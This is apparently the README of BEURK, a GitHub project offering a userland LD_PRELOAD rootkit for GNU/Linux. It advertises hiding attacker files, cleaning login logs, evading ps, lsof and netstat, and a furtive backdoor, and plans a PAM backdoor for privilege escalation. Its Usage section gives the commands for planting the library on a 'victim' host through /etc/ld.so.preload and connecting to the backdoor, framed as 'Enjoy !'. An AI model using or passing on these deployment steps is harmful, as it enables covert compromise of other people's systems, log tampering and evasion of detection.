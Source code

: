 BEURK
=====
[Getting Started] | [API Documentation] | [Contributing] | [TODO List]

[![Travis Build][Travis badge]](https://travis-ci.org/unix-thrust/beurk)
[![Ready Issues][Waffle badge]](https://waffle.io/unix-thrust/beurk)
[![Coverage Status][Cover badge]](https://coveralls.io/r/unix-thrust/beurk)
[![Jenkins Build][Jenkins badge]](http://ci.zgun-family.eu/job/BEURK/)
[![Join the chat at https://gitter.im/unix-thrust/beurk](https://badges.gitter.im/Join%20Chat.svg)](https://gitter.im/unix-thrust/beurk)

**BEURK** is an userland [preload rootkit] for GNU/Linux, heavily focused
around anti-debugging and anti-detection.

> _**S'ils savaient, ils vomiraient ...**_
>
> *- The core team -*


-------------------------------------------------------------------------------

### Features ###
- Hide attacker files and directories
- Realtime log cleanup (on [utmp/wtmp])
- Anti process and login detection
- Bypass unhide, lsof, ps, ldd, netstat analysis
- Furtive PTY backdoor client

### Upcoming features ###
- [ptrace(2)] hooking for anti-debugging
- [libpcap] hooking undermines local sniffers
- PAM backdoor for *local privilege escalation*

### Usage ###
* **Compile**
```sh
    git clone https://github.com/unix-thrust/beurk.git
    cd beurk
    make
```
* **Install**
```sh
    scp libselinux.so root@victim.com:/lib/
    ssh root@victim.com 'echo /lib/libselinux.so >> /etc/ld.so.preload'
```
* **Enjoy !**
```sh
    ./client victim_ip:port # connect with furtive backdoor
```

### Dependencies ###

The following packages are not required in order to build BEURK at the moment:

* **libpcap** - to avoid local sniffing
* **libpam** - for local PAM backdoor
* **libssl** - for encrypted backdoor connection

**Example on debian:**
```sh
    apt-get install libpcap-dev libpam-dev libssl-dev
```

-------------------------------------------------------------------------------

[![Waffle metrics][Waffle metrics]](https://waffle.io/unix-thrust/beurk/metrics)

* _**BEURK v 1.0 is in active development,**_
_**please checkout current [development branch].**_

> NOTE: **BEURK** is a recursive acronym for
> **B**EURK **E**xperimental **U**nix **R**oot **K**it

-------------------------------------------------------------------------------

[Getting Started]: https://github.com/unix-thrust/beurk/wiki
[API Documentation]: https://github.com/unix-thrust/beurk/wiki/API-Documentation
[TODO List]: https://github.com/unix-thrust/beurk/blob/master/TODO.md
[Contributing]: https://github.com/unix-thrust/beurk/blob/master/CONTRIBUTING.md

[Travis badge]: https://travis-ci.org/unix-thrust/beurk.svg?branch=master
[Waffle badge]: https://badge.waffle.io/unix-thrust/beurk.svg?label=Ready&title=Ready-Issues
[Cover badge]: https://img.shields.io/coveralls/unix-thrust/beurk.svg
[Jenkins badge]: http://ci.zgun-family.eu/job/BEURK/badge/icon
[Waffle metrics]: https://graphs.waffle.io/unix-thrust/beurk/throughput.svg

[preload rootkit]: http://volatility-labs.blogspot.fr/2012/09/movp-24-analyzing-jynx-rootkit-and.html
[utmp/wtmp]: http://man7.org/linux/man-pages/man5/utmp.5.html
[ptrace(2)]: http://man7.org/linux/man-pages/man2/ptrace.2.html
[libpcap]: http://en.wikipedia.org/wiki/Pcap#libpcap
[development branch]: https://github.com/unix-thrust/beurk/tree/dev

